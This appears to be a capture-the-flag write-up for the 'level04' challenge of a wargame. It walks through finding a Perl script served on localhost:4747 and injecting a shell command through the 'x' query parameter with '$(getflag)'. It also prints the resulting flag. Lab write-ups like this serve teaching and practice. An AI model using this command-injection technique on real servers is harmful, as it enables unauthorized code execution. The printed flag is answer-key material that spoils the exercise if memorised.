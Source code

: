 # level04

We got some intel from level00:
dr-xr-x---  2 flag04 level04  33 Mar 12  2016 level04
/var/www/level04
/rofs/var/www/level04

```cat level04.pl``` seems to indicate that a server is running on localhost:4747

```service apache2 status``` tells us that a webserver is probably running too

```ls /var/www/level04``` shows the same level04.pl script as ~/level04.pl

```/etc/apache2/sites-enabled$ cat level05.conf``` shows that the root of the webserv is containing level04.pl

```curl localhost:4747?x=exploit``` returns ```exploit``` meaning that we might inject some code

```cat /etc/apache2/sites-enabled/level05.conf``` shows that this code would be executed belonging to flag04 group

```curl localhost:4747?x='$(getflag)'``` gives flag ```ne2searoevaevoem4ov4ar8ap```
